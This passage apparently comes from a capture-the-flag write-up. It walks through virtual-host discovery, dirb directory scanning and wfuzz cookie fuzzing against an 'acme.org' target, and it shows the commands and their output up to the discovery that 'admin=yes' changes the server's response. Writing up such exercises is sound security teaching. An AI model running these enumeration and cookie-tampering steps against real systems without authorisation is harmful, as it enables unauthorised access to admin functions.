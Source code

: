 Tool #2: virtual-host-discovery

```
	$ruby scan.rb --ip=104.236.20.43 --host=acme.org --wordlist=wordlist --ignore-content-length=11321
	Found: admin.acme.org (200)
	 date:
	 Sat, 18 Nov 2017 04:20:37 GMT
	 server:
	 Apache/2.4.18 (Ubuntu)
	 set-cookie:
	 admin=no
	 content-type:
	 text/html; charset=UTF-8
	 Start writing final results
	 Finish writing final results
```

Now that I have a hostname, now I needed to figure out what I could do with it! First, for ease of interacting with the virtual host, I added an /etc/hosts entry for admin.acme.org. Then I ran dirb again:

```
	$ dirb http://admin.acme.org/ /usr/share/dirb/wordlists/common.txt -w
	
	---- Scanning URL: http://admin.acme.org/ ----
	+ http://admin.acme.org/index.php (CODE:200|SIZE:0)                                                                                             
	+ http://admin.acme.org/server-status (CODE:403|SIZE:302)                                                                                       
                                                                                                                                                
	-----------------
	DOWNLOADED: 4612 - FOUND: 2
```

Ah-ha! This thing virtual host is running a php script! Noticing from the virtual-host-discovery tool that it is setting an cookie too, we can get to work tampering with the parameters! Seeing that there is a cookie named admin set to "no" it's obvious to me that it is screaming to be set to yes. For giggles, I created a text file with several potential values of admin (no, yes, flag, maybe, true, false, etc) and ran wfuzz to test to see if I could get a change out of the script (other than the 200 response code I already got).

Tool #3: wfuzz

```
	$ wfuzz -b "admin=FUZZ" -zfile,admin_cookie.txt --hc 200 http://admin.acme.org/

	==================================================================
	ID	Response   Lines      Word         Chars          Payload    
	==================================================================

	00002:  C=405      0 L	       0 W	      0 Ch	  "yes"
```

There it is, "admin=yes" changed the response code from a 200 to a 405. Now we are getting somewhere! Once I figured out the correct cookie value, the server is almost screaming at me that my method type isn't correct so I tried some other method types.
